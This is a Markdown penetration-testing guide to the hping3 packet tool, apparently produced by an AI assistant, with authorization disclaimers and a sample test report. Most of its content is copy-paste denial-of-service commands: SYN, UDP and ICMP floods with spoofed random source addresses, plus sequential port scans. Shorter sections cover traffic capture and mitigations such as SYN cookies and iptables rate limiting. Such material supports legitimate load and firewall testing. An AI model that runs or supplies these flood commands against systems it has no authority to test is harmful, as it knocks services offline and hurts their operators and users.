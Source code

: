 Here’s a **comprehensive `.md` guide** for `hping3`, covering syntax, use cases, and practical examples for authorized penetration testing:

---

```markdown
# `hping3` Penetration Testing Guide  
*(Authorized Use Only)*  

## **1. Introduction**  
`hping3` is a network tool for crafting custom TCP/IP packets, useful for:  
- **Firewall Testing**  
- **Port Scanning**  
- **DoS/DDoS Simulation** (SYN/UDP/ICMP floods)  
- **Network Traffic Analysis**  

---

## **2. Basic Syntax**  
```bash
hping3 [OPTIONS] TARGET_IP
```
| **Option**  | **Description**                  | **Example**                     |
|-------------|----------------------------------|---------------------------------|
| `-S`        | SYN flag (TCP half-open)         | `hping3 -S 192.168.0.118 -p 80`|
| `-p PORT`   | Target port                      | `-p 443`                        |
| `--flood`   | Send packets as fast as possible | `--flood`                       |
| `--rand-source` | Spoof source IP (randomized) | `--rand-source`              |
| `-1`        | ICMP mode                        | `hping3 -1 192.168.0.118`       |
| `-2`        | UDP mode                         | `hping3 -2 192.168.0.118 -p 53` |

---

## **3. Common Use Cases**  

### **A. SYN Flood (TCP DoS)**  
**Command**:  
```bash
hping3 -S 192.168.0.118 -p 80 --flood
```  
**With Spoofed IPs**:  
```bash
hping3 -S 192.168.0.118 -p 80 --flood --rand-source
```  
**Purpose**:  
- Overwrites TCP connection queue.  
- Simulates a SYN flood attack.  

---

### **B. UDP Flood**  
**Command**:  
```bash
hping3 -2 192.168.0.118 -p 53 --flood
```  
**With Spoofed IPs**:  
```bash
hping3 -2 192.168.0.118 -p 53 --flood --rand-source
```  
**Purpose**:  
- Floods UDP ports (e.g., DNS on port 53).  
- Bypasses connection-based defenses.  

---

### **C. ICMP Flood (Ping of Death)**  
**Command**:  
```bash
hping3 -1 192.168.0.118 --flood
```  
**With Spoofed IPs**:  
```bash
hping3 -1 192.168.0.118 --flood --rand-source
```  
**Purpose**:  
- Overloads target with ICMP Echo Requests.  
- Tests ICMP rate-limiting.  

---

## **4. Advanced Options**  

### **A. Packet Customization**  
| **Option**  | **Description**                  | **Example**                     |
|-------------|----------------------------------|---------------------------------|
| `-d SIZE`   | Packet size (bytes)              | `-d 1000`                       |
| `-c COUNT`  | Number of packets to send        | `-c 1000`                       |
| `-w WIN`    | TCP window size                  | `-w 64`                         |
| `-t TTL`    | Time-to-Live                     | `-t 128`                        |

**Example**:  
```bash
hping3 -S 192.168.0.118 -p 80 -d 1200 -c 5000
```

---

### **B. Port Scanning**  
**Stealth Scan**:  
```bash
hping3 -S 192.168.0.118 -p ++1
```  
- Scans ports sequentially (e.g., 1, 2, 3...).  

**Range Scan**:  
```bash
hping3 -S 192.168.0.118 -p 80-100
```  

---

## **5. Monitoring & Analysis**  

### **On Attacker Side**  
```bash
tcpdump -i eth0 'host 192.168.0.118' -w hping3_capture.pcap
```  
- Captures traffic for analysis in Wireshark.  

### **On Target Side**  
```bash
netstat -tuln | grep "80"  # Check active connections
htop                       # Monitor CPU/RAM
```

---

## **6. Mitigation Testing**  
Test defenses against `hping3` attacks:  
- **SYN Cookies**:  
  ```bash
  sysctl -w net.ipv4.tcp_syncookies=1
  ```  
- **Rate Limiting**:  
  ```bash
  iptables -A INPUT -p tcp --syn -m limit --limit 1/s -j ACCEPT
  ```  

---

## **7. Legal & Reporting**  
### **Sample Report**  
```markdown
# hping3 Test Report  
**Target**: `192.168.0.118`  
**Test Type**: SYN Flood (`-S --flood`)  
**Impact**:  
- 10,000 PPS caused 90% CPU usage.  
- Mitigation: Enabled SYN cookies (100% recovery).  
```

---

## **8. Post-Test Actions**  
1. **Stop Attacks**: `Ctrl+C` in terminal.  
2. **Verify Restoration**:  
   ```bash
   ping 192.168.0.118  # Check if target responds
   ```  
3. **Document Findings**: Share with stakeholders.  

---

⚠️ **Warning**: Always obtain **explicit authorization** before testing.  
```

---

### **How to Use This Guide**  
1. Save as `hping3_guide.md`.  
2. Replace `192.168.0.118` with your target IP.  
3. Use in controlled environments only.  
